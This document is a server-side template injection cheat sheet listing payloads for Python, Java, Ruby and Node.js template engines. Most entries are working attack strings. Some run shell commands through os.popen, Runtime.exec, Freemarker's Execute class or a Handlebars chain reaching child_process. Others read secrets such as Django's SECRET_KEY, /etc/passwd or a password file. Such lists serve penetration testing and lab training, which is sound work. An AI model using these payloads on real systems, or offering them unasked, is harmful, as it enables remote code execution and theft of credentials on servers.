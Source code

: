 ## Note:
- Look for reflection of user-controled input

## Python Templating Engines:
Django 
```
{{ 7*7 }} 
{{ settings.SECRET_KEY }}
{% debug %}
```
Jinja2 
```
{{ 7*7 }} 
{{ ''.__class__.__mro__[1].__subclasses__() }} 
{{ config.items() }} 
```
Mako
```
<% import os %>
${os.popen('id').read()} 
${7*7}  # Output: 49
```
Tornado 
```
{{ __import__('os').popen('ls -la').read()}}
```
## Java Templating Engines:
Freemarker
```
${7*7} 
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("ls -la") }

<#assign classloader=<______object here______>.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("ls -la")}
```
Jinjava
```
{{ 7*7 }}  # Output: 49
{{ ''.getClass().forName('java.lang.Runtime').getRuntime().exec('id') }}  
```
Apache Velocity
```
#set($foo = "7*7") $foo  
#set($foo = "''.getClass().forName('java.lang.Runtime').getRuntime().exec('id')") 
```
## Ruby Templating Engines:
ERB (Embedded Ruby)
```
<%= 7 * 7 %> 
<%= `id` %>  
<%= self.class.name %>
<%= self.methods %>
<%= ENV['HOME'] %>
<%= File.read('/etc/passwd') %>
<%= system('ls') %>
```
Slim
```
= 7 * 7 
= `id` 
```
## NoteJS
Handlebars 
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la').toString();"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

